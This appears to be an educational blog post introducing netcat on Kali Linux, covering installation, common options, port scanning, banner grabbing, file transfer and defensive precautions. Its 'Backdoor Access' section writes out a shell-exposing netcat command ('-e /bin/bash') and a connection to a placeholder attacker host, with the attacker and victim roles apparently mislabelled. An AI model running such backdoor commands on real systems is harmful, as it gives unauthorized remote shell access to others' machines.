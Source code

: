 ```yaml
---
title: "Exploring Netcat: The Swiss Army Knife of Networking on Kali Linux"
subtitle: 'Netcat is a versatile networking tool available on Kali Linux, offering functions from basic communication to advanced network troubleshooting. This guide covers its installation, essential commands, real-world uses, and the necessary cybersecurity precautions to prevent misuse. Understanding Netcat capabilities and risks ensures effective and secure network management.'

# Summary for listings and search engines
summary: 'A Comprehensive Guide to Installation, Commands, Real-World Applications, and Cybersecurity Precautions'

# Link this post with a project
projects: []

# Date published
date: '2024-01-07T00:00:00Z'

# Date updated
lastmod: '2024-01-09T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# To comment on this page
commentable: true

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**By_Author_using_BingCreator**](featured.jpg)'
  focal_point: 'Smart'
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - CyberSecurity

categories:
  - CyberSecurity
  - KaliLinuxTools
---
```



### Introduction:

Netcat, often referred to as the "Swiss Army Knife" of networking, is a versatile tool that can be used for a multitude of tasks. From debugging and network exploration to being used as a backdoor in cyber attacks, Netcat’s range of capabilities makes it a powerful asset in the toolkit of both network administrators and cybersecurity professionals. This blog delves into the intricacies of Netcat on Kali Linux, providing a comprehensive overview of its installation, essential commands, real-world applications, and the cybersecurity precautions one must consider.
{style="text-align: justify;"}


### Installation of Netcat on Kali Linux

Netcat comes pre-installed on Kali Linux, making it readily available for use. 
However, if for any reason it needs to be installed or updated, the process is straightforward. 
Open a terminal and use the following command:

1) Update your package list:

```bash
sudo apt-get update
```

2) Install Netcat:

```bash
sudo apt-get install netcat
```

3) Verify the installation:

```bash
nc --version
```
This should display the installed version of Netcat, confirming that the installation was successful.

### Important Commands
Netcat's versatility is reflected in its wide range of commands. Below are some of the most critical commands and their uses:

**Basic Syntax**

```bash
nc [options] [hostname] [port]
```
**Common Options**

- -l : Listen mode for inbound connections.
- -v : Verbose mode, providing detailed output.
- -z : Zero-I/O mode, used for scanning.
- -w : Timeout for connections.

### Examples of Commands

1) Basic Connection

Connect to a specific port on a host:

```bash
nc example.com 80
```

2) Listening for Connections

Set up Netcat to listen on a specified port:

```bash
nc -l 1234
```

3) File Transfer

- **Sender:**

```bash
nc -l 1234 < file.txt
```

- **Receiver:**

```bash
nc host 1234 > file.txt
```

4) Port Scanning

Scan a range of ports on a target host:

```bash
nc -zv example.com 20-30
```

5) Banner Grabbing

Retrieve banners from a target host to identify services:

```bash
nc example.com 80
```
Type HEAD / HTTP/1.0 and press Enter twice to get the HTTP header information.

### Real-World Examples

**Network Troubleshooting**

Network administrators can use Netcat to troubleshoot network issues. For example, testing if a specific port on a remote server is open:

```bash
nc -vz example.com 80
```

This command checks if port 80 (HTTP) on the remote host is open and provides verbose output.

**Chat Server**

Netcat can be used to create a simple chat server for internal communication.

- Server:

```bash
nc -l 1234
```

- Client:

```bash
nc host 1234
```

Messages typed by the client are sent to the server and vice versa.

**Backdoor Access**

While ethically questionable and illegal without permission, Netcat can be used by attackers to establish backdoor access. It's critical for cybersecurity professionals to understand this use to defend against it.

- Attacker’s Listener:

```bash
nc -l -p 4444 -e /bin/bash
```

- Victim’s Machine:

```bash
nc attacker_ip 4444
```

### Cyber Cautions

Given its power, Netcat can pose significant security risks if misused. Here are some precautions to consider:

**Unauthorized Access**

Netcat can be used to bypass security measures, so ensure proper access controls and monitoring are in place.

**Network Scanning**

Regularly monitor network traffic for unusual Netcat activity which might indicate scanning or unauthorized access attempts.

**Firewall Rules**

Implement strict firewall rules to block unnecessary open ports and limit Netcat’s ability to be used maliciously.

**Logging and Alerts**

Set up logging and alerts for Netcat usage. Any unauthorized use should be immediately investigated.

### Conclusion

Netcat is an indispensable tool in the realm of networking and cybersecurity, offering a wide array of functionalities from basic communication to advanced network troubleshooting. Its versatility, however, also makes it a potential tool for malicious activities, necessitating robust security measures and vigilant monitoring. By understanding both its capabilities and the risks, professionals can effectively leverage Netcat to enhance network management and security.

{{% callout warning %}}
**Disclaimer:**
This blog post is intended for educational purposes only. The author and publisher do not endorse or condone any unauthorized or illegal activities conducted using **Netcat** or any other hacking tools. Always ensure that you have proper authorization before conducting security assessments or penetration tests.
{style="text-align: justify;"}
{{% /callout %}}